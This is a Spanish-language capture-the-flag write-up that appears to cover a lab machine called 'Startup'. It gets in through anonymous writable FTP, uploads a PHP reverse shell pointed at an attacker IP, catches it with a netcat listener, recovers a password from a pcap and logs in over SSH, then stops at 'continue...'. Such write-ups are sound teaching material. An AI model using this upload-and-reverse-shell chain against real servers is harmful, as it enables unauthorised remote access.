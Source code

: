 # Start Up

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.218.21 -oG allports
nmap -sC -sV -p 21,22,80 -Pn -n 10.10.218.21 -oN targeted
```

![0718200834.png](0718200834.png)

## FTP

Entramos con usuario **anonymous** y descargamos todo lo que hay.

![0718200811.png](0718200811.png)

En el caso del directorio ftp no hay nada pero si vemos los permisos de la carpeta tenemos permiso de escritura y lecutra.



## 80

En la página web no vemos algo útil, así que buscaremos que carpetas puede tener con wfuzz.

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u 'http://10.10.218.21/FUZZ'
```

![0718200811.png](0718221012.png)

Vemos una carpeta files, esta carpeta no hay nada pero parece ser la misma que la de la carpeta FTP que vimos con anterioridad. Entonces colocaremos una reverse shell con php en esta carpeta.

En parrot tenemos varias reverse shell por ejemplo podemos usar esta copiandola con el comando:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Modificamos un poco el archivo para colocar la ip del atacante y cambiar la shell para una bash.

```php
...
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.13.243';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
...
```

Ahora subimos el archivo usando el servicio ftp en la carpeta ftp.

![0718231106.png](0718231106.png)

Esto debería reflejarse en la carpeta del sitio web en la ruta `/files/ftp`
![0718231121.png](0718231121.png)

# Reverse shell

Ahora para conectarnos deberemos estar a la escucha con netcat 

```bash
nc -lvp 4444
```
Y entramos al enlace de **shell.php**

![0718231120.png](0718231120.png)

# User flag

Aquí encontramos la receta secreta y un archivo sospechozo llamado `suspicious.pcapng`, esto podemos descargarlo copiandolo en la carpeta files.

![0718231107.png](0718231107.png)

En el archivo si lo imprimimos con la función strings para que solo podamos ver caracteres ascii podremos leerlo sin caracteres extraños.

![0719001205.png](0719001205.png)

Así encontramos la contraseña **c4ntg3t3n0ughsp1c3** del otro usuario. Vemos que también nombra a un usuario **lennie**.

Podemos conectarnos por ssh.

```bash
ssh lennie@10.10.129.101
```

continue...